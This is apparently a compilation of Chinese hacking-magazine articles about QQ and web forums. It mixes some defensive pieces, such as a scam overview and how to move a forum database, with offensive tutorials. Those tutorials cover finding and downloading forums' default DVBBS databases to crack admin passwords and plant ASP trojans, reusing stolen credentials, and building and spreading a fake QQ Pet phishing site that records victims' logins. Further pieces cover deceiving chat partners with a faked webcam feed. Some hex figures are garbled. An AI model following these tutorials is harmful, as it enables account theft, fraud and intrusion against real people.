

图12

数据库被人下载后，整个论坛的数据都可能被对方利用，所以我们一定要修改默认数据库的路径。其实更改的方法很简单：在 CuteFTP 中进入 `data` 目录，找到 `dvbbs7.mdb` 给它改个名字，例如 `wukong##$%-.asp`，这个名字越怪越复杂越好，反正自己不需要去记忆。然后进入上一级目录，也就是 web 目录下，找到 `conn.asp`，右键选择“编辑”，找到图12所示的位置，将 `dvbbs7.mdb` 替换为新的文件名，再按下 `Ctrl+S` 保存，这样论坛数据库路径就修改完成了（也可以将 `dvbbs7.mdb` 移动到 web 路径之外，比如空间默认开好的 `db` 目录，这样在 `conn.asp` 里就把路径修改为 `../db/dvbbs7.mdb`。这种方法是最安全的，别人无论通过什么方式知道了你的数据库名和路径也无法下载）。

不光是 DVBBS 可以下载默认数据库，BBSXP 也有默认数据库路径 `database/bbsxp.mdb`。平时想入侵哪个论坛，就通过百度找一下该论坛是否存在默认数据库路径，尝试访问一下往往就会有惊喜。不过一个一个手工输入路径太麻烦，前辈已经为小菜开发出了一个工具，名叫“挖掘鸡”。以动网为例，在关键字处填上“powered by dvbbs”，选择线程数 10（根据自己的电脑和网速选择），然后在 `dvbbs7.mdb` 点右键选择“编辑”，来到“路径”对话框，添加内容“`/data/,/bbs/data/,/dvbbs/data/,/`”，确认以后选择最下面的“Google 国内”，如图13。然后点击“开始”就可以自动搜索了。检测一段时间后切换到“检测结果”选项，如图14，搜索到了许多默认数据库地址。这些地址直接访问就可以下载对方数据库了，打开数据库找到 `Dv_User`，寻找对方论坛管理员的密码吧！

得到了对方管理员密码就可以登录论坛，如果连后台密码也到手了，还可以上传 ASP 木马或者修改对方首页写上自己名字（虽然这样做非常不道德，不过有时候小菜还是需要暂时满足一下自己的虚荣心的）。要是你下载的数据库里有很多人的用户名和密码，一个一个跑出来，试着去登录他资料里留下的 QQ 号、Email……嘿嘿，爽吧！不过由于时间关系，这次课就先不讲了，我们一起期待脚本扫盲班的下一节课吧！



图13



图14

## QQ骗术大揭密

罗秉琨

近来，许多小菜纷纷向我诉苦，不是 QQ 号被盗了，就是电脑信息泄露了，要么就是被骗了。总之就一个原因：在 QQ 上因自己的疏忽，被对方蒙骗了。所以这次我就为大家总结一下骗子们的手法，还大家一个绿色的 QQ 环境。

### 一、通过QQ传送的方式

顾名思义，这个方法就是通过 QQ 自带的文件传送功能，来传送灰鸽子、阿拉QQ大盗等一系列木马。这是 QQ 上最常用的一个欺骗方法。这些文件一般名字都很诱人，通常都是以 `.exe`、`.cmd` 为扩展名的程序。QQ 尾巴病毒就是这种方法的最好体现。

我们可以通过 QQ 安全中心来防范，首先来到 QQ 系统设置里面，选择安全设置，然后选择网络信息安全，设置文件传输安全（图1）：选择高级别，则不接受任何文件；如果选择中级别，则只接受非可执行文件（CMD 除外）。推荐大家选择中级别，咱们也不能让木马干扰了我们正常程序的接收。


图1

### 二、通过官方电话给其充QQ币

大家上网可能经常会看见“免费充 Q 币”之类的帖子。这个方法是利用中国电信与腾讯的电话充值 Q 币服务流程中的漏洞来实现免费得到 Q 币的目的。其大致操作是拨打充值热线，选择充值金额，输入特定号码与代码，利用系统对号码前导“0”的处理规则进行欺骗，从而使费用转嫁到他人号码上。此类内容看似“教程”，实则属于诈骗手法。

……建议从头再试一次，这样就一定可以听到字符串了）……这种方法，其实就是想让你为他的 QQ 号充值 QQ 币。输入 QQ 号码时输 `0XXXXXXXXX`，其实是给 `XXXXXXXXX` 这个 QQ 号充值 Q 币，因为腾讯在充值电话中会对开头的数字 0 进行过滤。从而就让骗子们有机可乘，骗取你的电话费。至于防范方法，就是不要听从他们的骗言了。要记住：天下没有免费的午餐。

#### 三、网页陷阱

前几天，朋友给我发过来一个地址，说是一个好看的 flash，让我去看下。不料刚打开网页，杀毒软件就报警了。原来是网页挂马的方式来传播木马。这种方式在以前的文章里已有介绍。以后碰到好友发来的网址，要先问一下对方并确认后再点击，以防是别人利用 QQ 尾巴散播的地址。这样基本上就会过滤掉很多陷阱。

### 四、免费六位QQ大骗局

QQ 消息上、各个论坛上，大家可能会看到这样的广告：为庆祝活动开放六位数 QQ 免费申请。这种广告曾经很多，通常以“六位 QQ 不要钱”等名义吸引点击。站长常以“活动公正”“公司保留最终解释权”等话术迷惑用户，甚至在文字上做“腾讯/滕迅”之类的混淆。实质上是利用用户虚荣和侥幸心理骗取流量、账号信息或进一步传播诈骗链接。

在 alexa 查看可见，这类网站往往在短时间内流量异常上涨。其页面常见“六位QQ免费拿”“骗你我全家”等诱导语。很多站点本身不一定直接挂毒，但会借受骗用户继续扩散链接，最终服务于站点排名与商业利益。这样的站，还是不去为好。

### 五、免费Q币大赠送

常见弹窗文案如“恭喜您！您成功获得5个Q币，但还未激活。请把下面地址发给QQ上的五位好友激活……”。这类“转发激活”与前述骗局本质一致，目的是扩散钓鱼网址并持续收割新用户，应一律忽略并举报。

## 六、QQ挂机平台大骗局

这种骗人的把戏自从今年腾讯加强管理以来很少了。去年挂机网站风靡一时，各大网站纷纷推出QQ挂机、宠物挂机等服务，但一些“非法之徒”趁机打着“免费QQ挂机，为国家省电”的旗号骗取QQ号。这些网站要求用户输入QQ号码和QQ密码，却没有有效验证；一旦输入，信息就可能被收集，导致QQ号被盗。

## 七、虚假信息骗钱，骗号

一些冒充腾讯工作人员的人，通过QQ向用户发送虚假信息，声称“恭喜中奖”，要求按联系方式领奖。遇到此类信息应立即报警。还有骗子利用被盗QQ向其好友行骗，编造“家人生病、急需用钱”等理由，应通过电话核实后再处理。

骗子还会发送“正规”外观的邮件骗取QQ资料，内容看似来自腾讯，但回复地址是骗子邮箱。请牢记：无论QQ还是网易等公司，都不会以任何借口要求用户提供QQ密码、身份证件、密保资料等敏感信息。

## 八、冒充QQ系统广播，骗取手机费用

有不少网友收到短信：“恭喜你成功订阅了QQ的XX业务，每月将收取服务费10元，退订请编辑DQ01#EXIT80发送至921X”。

这类短信通常是骗子通过QQ客户端短信通道发送，目的是诱导用户回复“退订”，从而变成真正订制业务并扣费。收到此类信息应先核实，若开通QQ业务请以QQ官方网站渠道为准。

#### 九、防止密码被盗的建议

应到QQ客服中心申请密码保护；密码尽量复杂，避免生日、电话等弱口令；安装并及时更新杀毒软件；不要登录来路不明网站、下载不明软件。登录时尽量使用安全软件或官方登录器，并留意密码输入框旁安全锁状态是否正常，异常时先杀毒再登录。最重要的是提高警惕，不要掉以轻心。

> 网友顺口溜：上网本来是娱乐的，现在弄得处处陷阱，步步要小心。如今已经不是“不想占便宜，就不会被骗”的时代了。


## 利用代理达人，轻松玩转国外QQ

是不是玩腻了国内QQ？想不想体验国外版QQ？腾讯曾为开拓国际市场推出多种国外版QQ，如非洲版、泰国版、印度版、日本版等。其数据库与国内版相对独立，号码资源较多，甚至还能申请到7位号码。

此外，这些国外版QQ还有很多有趣之处，下面以非洲版QQ为例进行介绍。

### 一、非洲版QQ

先到非洲版QQ官网（http://www.qq.co.za/）下载最新版。进入页面后点击“downloadQQ click here”，勾选“I have read and agree to the terms and conditions of use”，再点击“download QQ now”即可。


可以下载了（图2）。下载下来的程序只有4.75M（比国内版QQ可瘦小多了），双击运行程序，进行安装。安装之后，双击打开QQ主程序，发现登录界面简洁无比……要想使用QQ，我们必须得有QQ号（纯属废话）。点击“Register”（图3），进入注册流程。


剩下的工作就简单了，就是填写一些头像、密码等个人信息。信息全部填写完后，程序向服务器提交信息进行注册；可是我尝试了许多次后，一直都没有成功，返回的都是“服务器繁忙，请稍后再尝试”这样的信息（图4）。


是什么原因呢？原来，这些国外版本的QQ都屏蔽了中国IP的注册，所以直接注册是无法成功的。不过，只要我们使用了代理，这个问题不就解决了吗？祭出我们的利器——代理超人，这是一款全功能的代理搜索、验证、管理调度软件……设置代理后重新注册，程序会返回信息并提示申请成功。


### 二、泰国版QQ

接下来我再简单介绍一下泰国版的QQ。首先，我们从其官方网站下载最新版英文版的泰国QQ（因为它只有泰文版和英文版）。下载之后安装。用同样的方法，搜索代理、注册一个号码，然后不必用代理即可登录。


泰国版QQ好像要先进一些，首先它的安装程序更大，界面更接近于我们现在使用的国人QQ。通过注册的QQ号均为会员，可以建群，而且泰国版QQ也有等级制度哦（图8）！


> 总结国外版QQ的有趣之处：

- 英文界面，练习英语的好机会。
- 可以结交更多的外国朋友。
- 比国内QQ更小，也不占用太多系统资源。
- 号码位数少。
- 注册即是会员，马上就可建群。

总之，平时换换口味，也是相当不错的。（本文中所涉及到的代理超人、非洲版和泰国版QQ已收录到光盘中）


## QZONE人气装饰：刷人气装饰限制


#### 一、怎么刷？

现在很多QQ群、论坛都在讨论空间“踩踩”与人气问题。文中介绍了 **Q-ZONE Tool V1.1** 的基本用法：输入QQ号、设置时间间隔并启动即可。作者实测约一小时可刷到约180人气（图1、图2）。


#### 二、怎么能多刷？

再次打开工具会提示“程序已经运行，不能再次运行”（图3）。文中给出绕过思路：复制程序为不同文件名、多开实例，并处理版本检测问题。


作者建议通过抓包定位更新地址，并在防火墙中封锁对应更新服务器IP，使程序无法检测新版本，从而避免被强制关闭（图4、图5）。同时提醒多开数量不宜过多。


```http
GET /update/red.txt HTTP/1.1
Accept: image/gif,image/x-xbitmap,image/jpeg,image/pjpeg,*/*
User-Agent: Microsoft URL Control - 6.01.9782
Host: www.71713.cn
Connection: Keep-Alive
Cache-Control: no-cache
```


## 盗我QQ，问地没门！


本着害人之心不可有，防人之心不可无的对策。我们的QQ辛辛苦苦挂出太阳，充上QQ币，游戏玩那么高的级别，可不想被别人盗去了。什么，你有密保、你有键盘加密……可盗号者有的很不讲义气，盗了咱们的QQ号，看有密保便偷咱们的衣服、花光咱们的QQ币、盗走咱们的QQ游戏币，甚至连幻想中的装备也挖地三尺……


俗话说魔高一尺，道高一丈。腾讯公司从QQ2005 beta3推出了键盘加密，但新版木马仍可能绕过加密照样偷QQ。那么有没有有效的方法来保护我们的小企鹅不受伤害呢？我想到的一个方法就是在QQ密码里加上汉字。即便电脑中木马，木马也只会记录非汉字字符，不会记录汉字，这样QQ号码也就不会被偷走了。

首先下载“腾讯TM2005”安装后登录，登录自己要修改密码的QQ号码。然后从“文件”里选择“个人资料”，切换到“系统设置”中的“密码安全”（如图2），找一个能输入汉字的地方（如记事本、浏览器），输入要修改的密码，例如“中国2008”，复制后回到修改密码窗口，在“旧口令”“新口令”“口令确认”中按步骤粘贴并应用。


现在密码改完了，接下来就是登录问题。腾讯2006版本登录框不允许复制QQ密码。先找到QQ安装目录，在QQ图标上右键“属性”，在“查找目标”中按字母“N”快速定位，找到 npkcrypt.sys / npkcrypt.vxd / npkcusb.sys 等文件并删除（如图5）。


回到登录界面输入QQ号码，在浏览器中输入刚设置的密码汉字部分并复制，在“QQ密码”中粘贴，再输入非汉字部分（如“2008”），最后登录即可。


## QQ世界杯队服

今天上线，突然看见QQ的提示（图1），看到了吗？可以赢QQ币哦！我们登录网站看看活动的具体介绍（图2），说是只要收集腾讯提供的队服碎片，拼成正确的队服图片，就可以赢取QQ币，还可以免费得到2个QQ币的QQ秀购物券。


一次会更换一次图片，再加上刷出你所需要的图的概率（别忘了有32支队伍），要想成功地收集到这9张图片无异于……看来，腾讯给我们出了一道智力题，要测试我们菜鸟的IQ！

我的目的是QB，怎么办呢？只有自己看看这个系统是否有破绽可以利用了。嗯？在那个图片链接上面右键看看，不是flash的，那么就是使用get picture的方法访问数据库了？要是那样的话，就应该有下载地址。呵呵，灵感来了挡都挡不住。右键点击“源文件”看看，并且使用查找功能寻找关键字“http”（在记事本的“编辑”→“查找”），如图4。


看似很容易哦。点击一个喜欢的队伍进入吧（英格兰England偶最爱，呵呵），点击进入后才发现要进入QQ的相关网站去寻找图片（似乎像大海捞针呀……），不管怎么说，还是先进去看看（图3）。


看到了吗？“act_getpic.php”这几个字也太抢眼了吧，呵呵。在浏览器里打开链接看看，如图5。


呵呵，就是这个了。如果你比较有耐心的话，可以不停刷新这个图，毕竟比刷新整个网站要快得多。不过偶是懒人，这么费力的事儿我通常是不愿意去做的，那该怎么办？不参加活动？当然不行！拿出按键精灵之类的脚本工具做个脚本好了，挂1晚上基本能解决。提示一下，模仿一次正常的刷新+点击，然后for循环它就行了。


不过很幸运的是我发现队服碎片位置其实就在右上角，点击就算搜集到了，不过得是你刚才选择那个球队的队服才行哦！有个小小的问题，我们来计算一下，世界杯32支队伍，腾讯说是每个队伍9张图片，那么一共就是288张，我们每刷新一次会更换一次图片……

## 八零的QQ独门秘笈

传说网络江湖上一直流传着一本名叫《QQ宝典》的网林秘笈，是从黑客X档案流传出来的一本秘笈；网林上的人为得到这本秘笈，不惜互相残杀，网络江湖弄得腥风血雨，死伤无数，誓言要与秘笈共存亡……今天我就把自己多年来行走网林所学的QQ独门秘笈传授给广大菜菜鸟，记住不可以外传哦！

### 1. 让自己的QQ从对方的好友列表名单中消失

点选QQ“菜单”，选择“使用TM”或者直接用TM登录QQ，然后在自己的好友列表里找到对方（自己的QQ已被对方加为好友了），在对方的QQ头像点击右键，选择“从对方名单中删除自己”，随后在出现“警告”的对话框里选择“是”就可以了（图1）。


### 2. 手工快速清除多余QQ好友

如果自己QQ加了许多陌生好友，要一个个删掉十分麻烦。可按住键盘“Ctrl”不放，再用鼠标点击要删掉的QQ好友，选完后右键选择“删除好友”（图2）；若要删除连续用户，可按住“Shift”键，单击起止位置即可批量选中后删除。


### 3. 让自己的QQ在好友QQ中往前排

先进入QQ个人设定，打开输入法语言栏，右键点击软键盘选择“特殊符号”，在QQ昵称前按下相关字符（如方框符号）与空格，让昵称在群或列表中靠前显示（图3、图4、图5）。


### 4. 让我的QQ头像也玩空白

QQ头像也可以做成“空白头像”。可先把QQ头像截图，再捕捉一张空白画面并替换头像，即可显示为空白效果（图6）。


### 5. 用QQ秀功能查看是否已被对方QQ加为好友

当QQ好友增多时，可借助QQ秀判断对方是否把你加为好友。操作为：双击要查看好友头像打开聊天窗口，点击右侧栏中的“查看QQ秀资料”。若弹出窗口可见更多资料，通常表示对方已加你为好友；若提示“对不起，您必须是……的好友，才能浏览”，则对方未加你（图7、图8）。


### 6. 减少QQ占用内存资源的秘笈

登录QQ后占用内存约8M，QQ离线占用约10M。登录后随便打开一个好友对话窗口并最小化，QQ占用内存可降至约3M，对内存较小的电脑很有帮助。

### 7. 普通QQ号克隆好友

首先只要我们先将自己原来的号和新号登录一遍，然后在以旧号命名的文件夹里找到 user.db 数据库文件，复制到新号的文件夹里覆盖原文件。然后再登录新号，你会发现好友都在了，不过都是永远不上线的。呵呵，没关系，接下来就是我们最关键的一步了，打开好友管理器，在好友列表里选中自己想要加入的，记住哦，要按着Ctrl来选啊。选好了，把刚才选中的好友全拉到陌生人一栏里。有人要问我，怎么要删掉啊，先别急，慢慢来，在跳出的对话框里都选确定啊，这样保证才能删掉。然后到陌生人一栏里，像刚才一样选中你的好友，拉到好友列表里，这回要弹出好多要求好友确认的对话框，慢慢点吧，虽然有点麻烦，但不用花钱！

### 8. 把自己的QQ加为好友

首先建议设定到“允许任何人把我列为好友”，然后切换到“黑名单”组，在里面空白处点击右键并选“添加坏人名单”，输入自己的QQ号码（什么？把我自己当成坏人了呀！）。接下来再把这个“坏人”拖到“我的好友”组中去，这时会弹出“不能添加自己”的提示，不理会它，直接退出QQ。再一次用注册向导登录时（注意这里一定要用注册向导！），就可以看见自己的头像已经在列表中了，而且还可以和“自己”说话呢！


## QQ也玩虚拟摄像头

想必各位菜菜在QQ上和MM聊天时都用上摄像头了吧，可是我和MM聊天时从不打开摄像头，因为本人的形象和MM心中的偶像相比实在是差得太远了，怕把MM给吓跑了。不过，要是仅仅因此就不能和漂亮MM聊天也太遗憾了吧！今天我就教菜菜们一招，用虚拟摄像头来蒙MM（GG），保证在摄像头中看到的一定是一个漂亮的帅哥（帅姐）。

安装完成“瑞风虚拟摄像头”软件后打开QQ，点击QQ下面的“菜单”→“工具”→“语音视频调节”，打开“语音视频调节向导”。然后直接点“下一步”，系统自动检测出所有的视频设备，包括真实摄像头和虚拟摄像头，我们选择“瑞风虚拟摄像头”后，系统自动打开“瑞风虚拟摄像头”程序。

这里有3个选项，选择“物理摄像头”就是我们的真实摄像头，可通过真实摄像头将我们的实际状况发送到好友的视频中；“屏幕捕获”可将当前的屏幕通过“瑞风虚拟摄像头”直接发送到好友的视频中；利用“屏幕捕获”可给MM指导讲解电脑知识；重点是“媒体文件”，通过它可以将我们的视频文件发送到好友的视频中。选中“媒体文件”选项，在“文件”菜单中点“增加文件”可增加视频文件和图片，我们就在此增加帅哥或美女的图片或一段视频，然后利用“瑞风虚拟摄像头”播放一段视频来蒙MM。

软件安装调试好了，可是“瑞风虚拟摄像头”每次启动时都显示一个“瑞风”图标，如图1，聪明的MM一眼就可看出是一个软件，这样很难蒙混过聪明MM的眼睛。我们到“瑞风虚拟摄像头”的安装目录去看看，可以看到一个名为 bg.jpg 的图像文件就是显示为“瑞风”图标文件，我们可用一张帅哥或美女的照片将它替换掉。由于喜欢美女的网友比较多，我看还是用美女照片吧，替换时图片大小最好和原来图片 bg.jpg 的大小一致，否则图片可能会变形。


图1

替换成功后虚拟摄像头启动时就显示为一个美女的照片，一般情况下就可蒙GG（或MM）了。但是照片是静止不动的，聊天的时间长些，聪明的GG（或MM）一眼就可看出是假的。假如让照片动起来，恐怕就不容易看出破绽了。要使静止的照片动起来，确实是一件很难办的事，经过我在网上一番寻找终于找到一个神奇的软件“奇幻变脸秀”，利用此软件处理照片后，可使静止的照片动起来，和真实摄像头中的人物差不多，不仔细看是看不出是照片还是真人。

程序安装完成后启动后如图2，点“源图片1”左下方的“导入源图片1”按钮，打开源图片1，当然还得用刚才的美女照片；同样方法打开源图片2，为了真实，图片1和图片2最好为同一张图片。然后点两图片之间的“添加关键点”按钮后，用鼠标在源图片1中添加“关键点”。需要注意的是你需要人物的哪个部位移动，就在那个部位添加关键点。我需要美女的眼睛和嘴动，就在美女的眼睛和嘴添加了关键点，添加的关键点越多越真实。为了更真实也可增加手及其它部位的关键点，使美女的手等其它部位都动起来。


图2

所有的关键点添加完成后，点“编辑关键点”按钮，然后用鼠标在“源图片2”中拖动关键点到合适的位置。所有的关键点编辑完成后，就可点击下面“预览”中的“播放”按钮进行预览，然后根据“预览”中显示的效果，仔细调整“源图片2”中的关键点，直到满意为止。

保存影片前需要进行一些设置，打开“片段”菜单，如图3。为了增加真实感，在这里可增加1个空白“片段”，增加后图像明暗交替播放和黑天闭光明暗的效果近似（我们多数情况下是在黑天钓MM的），更具有真实感。另外还可调节“特征曲线”和“形状曲线”等等，具体的效果你可慢慢去体验。

打开“影片”菜单可以设置影片效果，可以设置前景、遮罩、背景、过渡等效果，如图4。不过如果想蒙GG（或MM）的话最好不要用特效。不过我建议设置一下“光效”，也就是人物的灯光效果，可适当调节一下灯光类型、大小、亮度等，这样生成的影片更真实。最后设置完影片的帧数就可保存了，默认为15，建议适当增加些帧数，可根据需要保存为AVI、Flash等格式。

然后在“瑞风虚拟摄像头”的“文件”菜单中点“增加文件”，将刚才做好的影片添加到“瑞风虚拟摄像头”视频中。最好用同一个人、同样的衣服，调节不同的参数多做几段视频，添加到视频文件中。为增强真实感，在设置播放顺序时可设为“乱序”播放，如图5。好了，视频做好了，上QQ找个GG（或MM）视频聊天试试吧，不过不要聊天时间太长，假的毕竟是假的，图像或视频处理不好很容易被有经验的GG（或MM）看出来。当然你如果和别的MM聊天时录制一段视频或照片，经过一定的技术处理后再播放，恐怕好友就很难看出破绽来了。

（本文所涉及到的瑞风虚拟摄像头和奇幻变脸秀已收录到光盘中）

## 和我一起玩转QQ木马

Kofyvhk[2.J.G]

昨天开机后杀毒软件就提示说查到个病毒，如图1。唉，天天要运行很多黑软，杀毒软件经常关闭——这样就给那些病毒开了绿灯，因此，在电脑上发现病毒也就见怪不怪了。我并没有急着杀掉病毒，而是要征服它。通过查看进程，发现scrqq.exe很可疑，先把它结束掉，然后把文件复制到其他文件夹下备份，删除掉原文件。在百度上搜了下trojan-psw.win32.qover，找到一些近期的信息，都没能说明白这是个什么病毒。又搜了下程序名字scrqq.exe，总算找到了一个有用的信息，如图2。

> Attention! A Trojan detected.  
> Access to the object C:\WINDOWS\scrqq.exe is blocked.  
> Object is Trojan Trojan-PSW.Win32.Qover.  
> You are advised to delete this object.

OICQ密码轻松盗V9.0破解版，先下载一个来看看生成的文件是不是一样。下载下来后一扫描，发现提示的是一样的trojan-psw.win32.qover木马。来看这个木马的功能，如图3。这是个盗QQ的程序，设置了邮箱没什么反应，点开始盗取，窗口消失，生成一个setup2.dat文件，之后再怎么点scrqq.exe都没出现配置窗口。可能问题就在setup2.dat上，把setup2.dat改名后，再运行程序又看到了那个配置窗口。说明这些配置信息都写在setup2.dat里，而且这个木马不生成新的执行文件。

总算搞清了：木马主程序运行时，先读取程序目录下是否存在setup2.dat；如果不存在，就说明木马还没有配置，打开界面让使用者配置；而如果已经存在setup2.dat就隐藏，进行盗号。我决定到发现木马的目录下找setup2.dat文件，在里面找出有用的信息，让盗号者吃点苦头。

使用UltraEdit打开setup2.dat，发现里面的内容都是数字（如图4）。将数字按两位一组查看后，推测文件按行存储不同字段，并通过替换用户名与密码进行定位分析。

```text
74 61 74 1? ...
77 73 76 91 ...
...
```

图4

```text
=46=40=49=45=11=12=15=19=11=3D=42=40
=73=69=60=91=76=74=73=34=19=16=12=04=65=69=71
...
```

图5

```text
=78=72=81=77=11=12=19=14=11=62=74=72
=73=69=60=91=76=74=73=34=19=12=16=04=65=69=71
...
```

图6

```text
=46=40=49=45=11=12=15=19=11=3D=42=40
=18=19=16=== ...
...
```

图7

```text
=69=82=83=...=71
=64=87=86=...=77
```

图8

```text
账号列映射与密码列映射对照（0-9,a-z,...）
```

图9

由于输入的用户名和密码相同，继续对比发现新增字符可能为配置项或与用户名相关字段；进一步替换后判断第四、五行分别对应注册用户名和密码信息，并得到字符对照表（图9）。

通过工具选择setup2.dat并执行“读取”，可提取邮箱密码；文中提示该过程较繁琐，并建议遇到类似情况多思考。

## 网络钓鱼·QQ号大丰收

现在利用QQ木马盗号已泛滥。由于腾讯的防范措施，直接盗取密码变难，于是转向通过欺骗网站收集账号，短时间可获取大量QQ号。

#### 一、原理介绍

做一个假的QQ活动网站，诱导用户输入账号和密码并写入数据库；再修改配置读取数据库（如qpass.mdb）中的记录，即可看到受骗用户提交的账号密码信息。

### QQ宝典

“pet_qq_action.asp”里找到（"qqpass.mdb"），把引号里面的内容改成你刚才改的数据库名字。比如把“qqpass.mdb”改为“123.mdb”，那么打开“pet_qq_action.asp”，要把里面的（"qqpass.mdb"）改为（"123.mdb"）就行了。然后编辑“pet_qq_login.html”这个网页，把里面的日期改一下，也可以对活动规则稍作修改。

把这个网站的网址发给对方，告诉他们：没宠物的在这里可以砸蛋获得宠物，有宠物的在这里砸蛋可以获得元宝，尽量说得好听点。这就全部行了。只要他们在这里登录，就会出现“系统忙。请您稍后登录！”的字样，然后跳转到QQ宠物的官方主页。这个时候你的数据库已经把他的账号和密码记录下来。

| id | name | pass |
|---|---|---|
| 69 | 12345678 | 888888 |
| 70 | 866688 | 123456 |

图2

看到了吗，“name”就是账号，“pass”就是密码，简单吧。依据经验可去论坛宣传你的盗QQ网站，诱导他人登录后获取账号密码。

#### 三、自己动手制作其他钓鱼网站

如果你感觉只是仿冒QQ宠物网站还不爽，我们还可以利用这个原型制作其他钓鱼网站，发挥自己的想象力去盗点其他号码。这个网页只不过是将文本框中用户输入的内容（账号密码）保存到数据库中。

选择一个带有需要用户输入账号密码的网页下载下来，在“文件”中点击“另存为”保存。再修改保存的网页，在输入QQ号和密码的地方调用记录密码的页面pet_qq_action.asp。删除黑框内嵌入的网页内容即可（图4）。

把鼠标停留在刚删除内容的表格内，点击“插入”中“表单”内的“文本框”，建立两个文本框。账号文本框命名为“u”，密码文本框命名为“p”，以便与代码中的Request("u")和Request("p")对应。

“提交”改为“登录”。在“重置”的属性里把“值/标签”改成“清除”（图5）。

